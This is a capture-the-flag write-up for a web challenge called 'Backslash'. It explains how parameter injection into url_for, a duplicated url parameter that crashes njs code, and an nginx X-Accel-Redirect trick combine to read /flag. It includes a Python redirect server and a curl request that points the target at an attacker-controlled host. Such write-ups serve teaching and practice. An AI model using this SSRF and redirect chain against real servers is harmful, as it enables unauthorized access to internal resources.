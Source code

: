 # Backslash

- We trick `url_for(request.query_parameters.merge(...)` with params not implemented inside the merge that would overwrite ours. I used `script_name`, so that the variable after parsing would be `http://justcattheimages.s3.eu-central-1.amazonaws.comOURPARAM`.

- Second step was to crash the js, for this, I used a second `url` param. As the doc states ([link](https://nginx.org/en/docs/njs/reference.html#r_args)), if two params are found, the parameter is converted to an array.

- Final step is to use the `proxy_pass`. I found a similar chall writeup ([link](https://github.com/dreadlocked/ctf-writeups/blob/master/midnightsun-ctf/bigspin.md)). We need a redirect with the header `X-Accel-Redirect: /flag`.

```
# server.py
from http.server import SimpleHTTPRequestHandler, HTTPServer

class myHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        self.send_response(301)
        self.send_header('Location', 'http://nginx:8000/flag')
        self.send_header('X-Accel-Redirect', '/flag')
        self.end_headers()

def run(server_class=HTTPServer, handler_class=myHandler, port=8000):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    print(f'Starting httpd server on port {port}...')
    httpd.serve_forever()

if __name__ == "__main__":
    run()


# execute
curl "http://bbre.web.jctf.pro/avatar?image=bubu&script_name=.OUR.IP.nip.io:8000/%26url=bubu"

```
